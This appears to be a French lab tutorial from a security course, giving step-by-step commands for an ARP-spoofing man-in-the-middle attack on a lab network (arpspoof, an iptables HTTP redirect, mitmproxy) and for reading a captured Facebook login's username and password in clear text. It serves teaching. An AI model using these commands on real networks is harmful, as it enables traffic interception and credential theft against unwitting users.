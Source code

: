 
# Machine ATTAQUANT ! 

## Étape 1 : Empoisonner les Tables ARP de Victim1

1. **Empoisonner la Table ARP de Victim1**

   - Exécutez la commande suivante sur la machine attaquant (`attacker`) :
     ```sh
     sudo arpspoof -i enp0s8 -t 10.0.2.20 10.0.2.30
     ```
## Étape 2 : Empoisonner les Tables ARP de Victim2
2. **Empoisonner la Table ARP de Victim2**

   - Ouvrez un nouveau terminal sur `attacker`.
   - Exécutez la commande suivante :
     ```sh
     sudo arpspoof -i enp0s8 -t 10.0.2.30 10.0.2.20
     ```

## Étape 3 : Configurer `iptables` pour Rediriger le Trafic HTTP

1. **Ouvrez un nouveau terminal sur `attacker`**.
2. **Exécutez la commande suivante pour rediriger le trafic HTTP vers `mitmproxy`** :
   ```sh
   sudo iptables -t nat -A PREROUTING -i enp0s8 -p tcp --dport 80 -j REDIRECT --to-port 8080
   ```

## Étape 4 : Lancer un Proxy MITM

1. **Sur la machine attaquant, lancez `mitmproxy`** :
   ```sh
   sudo mitmproxy -p 8080
   ```

![image](https://github.com/hrhouma/securite-logiciels-applications/assets/10111526/86b6ef41-af7b-47f7-b787-b4bcfb2a2a28)


# IMPORTANT 1:
- Accéder à http://localhost:8081
- Cliquez sur le bouton mitmproxy
- Cliquez sur install Certificates
- Pour la première fois, vous auriez le message suivant :
  *If you can see this, traffic is not passing through mitmproxy*
- *Solution* : Configuer le proxy de votre machine attaquant en manuel sur l'adresse suivante: http://localhost:8080 ou http://127.0.0.1:8080 ou http://10.0.2.10:8080
- Revenir à l'interface et observer le traffic
- Ouvrir le navigateur de facebook
- Essayez de vous connecter (saisir votre username et password et connectez vous)
- Revenir à http://localhost:8081
- Dans l'onglet start, mettre le filtre sur facebook
- Cherchez le POST
- Observez le username et le password en texte claire

